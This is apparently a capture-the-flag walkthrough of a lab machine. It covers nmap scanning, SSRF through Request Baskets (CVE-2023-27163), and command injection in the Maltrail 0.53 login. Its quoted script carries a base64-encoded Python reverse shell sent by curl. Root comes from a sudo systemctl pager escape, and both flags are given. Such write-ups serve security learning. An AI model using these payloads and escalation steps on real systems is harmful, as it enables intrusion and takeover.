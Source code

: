 # Notes:

### IP:
10.10.11.224
### Level:
Easy
### User flag:
aae76269af82f34d13677a7c61db2a48
### Root flag:
c5b4ba7e6f9f1d81ec295f0c28e08ac8


# Nmap

### Nmap gives the following output
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 06 Nov 2023 16:33:37 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 06 Nov 2023 16:33:11 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 06 Nov 2023 16:33:11 GMT
|_    Content-Length: 0

```
### With this command
```
nmap -p- -sV -sC 10.10.11.224
```

# Web

Accessing both the 80 port and 8338 port gives us no response on Firefox.
<b>However</b> the :55555 port gives us something:
![[./pictures/website.png]]

A request basket webpage. Googling a bit around allows us to find that version 1.2.1 and under is vulnerable to a SSFR attack. Checking the version on the webpage to see if we have that version and...

![[./pictures/baskets-version.png]]
### <b>bingo</b>

# SSRF with **[CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)**:

Cloning the repository and using the script, we can make the server redirect itself to the other ports we found earlier in the nmap scan, specifically port 80 and port 8338.

We can run these commands that gives us the URL's that redirects to itself with their ports.
```
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:8338
```
and
```
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

Going to the new basket we have created redirects us to those ports where this strange website is hosted:
![[./pictures/Maltrail-website.png]]

This really gives us nothing. We see that there is a log in button, however it's not clickable. Nor does it have a link that redirects in the html. HOWEVER! On the bottom of the page we see something interesting once more:

![[./pictures/Maltrail-version.png]]

Googling "Maltrail (v0.53)" led me to this https://github.com/spookier/Maltrail-v0.53-Exploit GitHub page. So as the github page describes. There is a RCE (Remote Code Execution) vulunrability in the login page for Maltrail version 0.53. This must be the "Log In" button we saw previously. So by pure chance I wanted to see if there is a directory called login and...

![[./pictures/Maltrail-login.png]]

### Bingo (again)

So we know there is a login page. We can either use the this nice person's repo, or you can manually send a request via curl, where the data is a reverse shell that's 64 encoded, and decoded using bash on the server's side. OR you can download the script and run it.

If you're curious what the script does:

```python
payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''

encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64

command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
```

This is the main part of the script. The **payload** is a reverse shell that uses python to spawn a shell. The **encoded payload** is just the base64 encoded version of that very payload. Finally the **command** is the request that RCE's the username field with a simple semicolon and then decrypts our payload on the server and runs it.

Pulling all of this together or running the script and...

![[./pictures/we're-in.png]]
## **We're in**

Navigating to /home/puma we can now cat out the file user.txt and get:
![[./pictures/user.txt.png]]

# Privilege escalation with # Systemctl:

This one was kind of a cakewalk.

Doing the command `sudo -l` is a quick way to find any privilage escalations, because it lists every command our user can run as root using the sudo command. We then get the output:

```
$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We can run the the command `sudo systemctl status trail.service` with no password what so ever. This article goes more in depth on what you can do to privilege escalate with Systemctl: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/

We can just run `sudo systemctl status trail.service` and spawn a shell with `!sh` and boom! We are now root. All we have to do now is cat out the contents of /root/root.txt and:

```
# cat /root/root.txt
c5b4ba7e6f9f1d81ec295f0c28e08ac8
```

**In conclusion**: The user flag was very hard to get conceptually and the one I was stuck on. I knew that there was a SSFR, however I didn't know what to do with it. After knowing you could redirect into it's own ports, the challenge became a lot more feasible. I didn't write any of my own scripts with this challenge so hopefully there will come a time in the future for that.